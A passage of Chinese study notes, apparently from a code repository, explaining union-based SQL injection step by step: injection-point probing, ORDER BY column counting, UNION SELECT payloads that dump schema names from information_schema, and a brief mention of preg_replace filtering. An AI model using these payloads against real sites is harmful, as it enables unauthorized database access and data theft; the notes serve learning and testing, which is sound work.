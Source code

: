 4. 利用：`concat()`、`concat_ws()`、`group_concat()`

   > `concat(str1,str2,str3,…)`：连接多个字符串，中间没有分隔符，但可以手动增加（如：`concat(str1,' , ',str2);`）
   >
   > `concat_ws(ch,str1,str2,…)`：使用ch当作分隔符，连接多个字符串
   >
   > `group_concat(字段名)`：将该字段中的所有数据使用`,`分隔并连接成字符串

5. 联合查询注入的步骤：

   > 1. 寻找注入点：在参数后加上`'")`，如果出现SQL错误或者出现不回显，则90%存在注入
   >
   > 2. 寻找闭合方式：利用`'`、`"`、`)`之一加上注释执行返回正常页面，则闭合方式就是对应的符号
   >
   > 3. 判断字段数：利用`order by`语句，判断字段数
   >
   >    > `id = a' order by 3%23`
   >    >
   >    > `order by n`正常，`order by n+1`报错，则字段数为n
   >
   > 4. 判断回显位置：使用联合查询
   >
   >    > 第三步判断有n个字段数，则可以执行`正常select语句 union select 1,2,…,n`，输出的数字即为回显位置
   >    >
   >    > 但是如果只能输出一行语句，需要让正常select语句没有输出，如增加一个判断`and '1'='2'`
   >
   > 5. 在有回显的位置上（假设回显位置为2），查询想要查询的信息：库名、表名、列名、数据
   >
   >    > **语句的位置**：$id = 1' and '1'='2' union 【语句位置】 %23
   >    >
   >    > 查询当前库名：`select 1,database(),3`
   >    >
   >    > 查询所有的数据库：`select 1,group_concat(schema_name),3 from information_schema.schemata`
   >    >
   >    > 查询当前数据库下的所有表：`select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`
   >    >
   >    > 查看某表中的所有字段：`select 1,group_concat(column_name),3 from information_schema.columns where table_name='需要查询的表名' and table_schema='该表所在的数据库名'`
   >    >
   >    > ---
   >    >
   >    > 在获取字段和表的数据之后，就可以使用select语句查看任意数据了

6. Note：联合注入只能执行查询语句

7. 联合注入过滤手段：使用preg_replace() 函数进行替换

   > `mixed preg_replace($pattern, $replacement, $subject[, $limit=-1[, &$count ]])`
   >
   > 参数说明：
   >
   > - $pattern: 要搜索的模式，可以是字符串或一个字符串数组。
   > - $replacement: 用于替换的字符串或字符串数组。
   > - $subject: 要搜索替换的目标字符串或字符串数组。
   > - $limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
   > - $count: 可选，为替换执行的次数。
